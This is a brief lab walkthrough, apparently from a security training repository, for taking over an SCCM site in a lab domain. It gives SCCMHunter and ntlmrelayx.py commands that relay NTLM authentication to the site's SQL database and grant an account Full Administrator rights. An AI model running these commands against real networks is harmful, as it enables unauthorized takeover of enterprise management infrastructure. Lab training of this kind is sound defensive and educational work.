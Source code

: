 # 3 - Takover Lab Walkthrough
## Objective 1 <br> Relay the Primary Site Server to the Site Database
### Step 1 
Use SCCMHunter's ***mssql*** module to create the SQL statement to add your account as a Full Administrator
```
python3 sccmhunter.py mssql -u <username> -p <password> -dc-ip <10.x.10.10> -d ludus.domain -tu <username> -sc <sitecode> -stacked
```
<div align="center">
<img src="./Screenshots/sccmhunter-mssql.png" width="800">
</div>

### Step 2 
Configure ntlmrelayx.py to target the SCCM Site Database Server (SQL Server)
```
python3 ntlmrelayx.py -smb2support -t mssql://<site-database-ip> -q "<sccmhunter-mssql-output>"
```
<div align="center">
<img src="./Screenshots/ntlmrelayx.png" width="800">
</div>
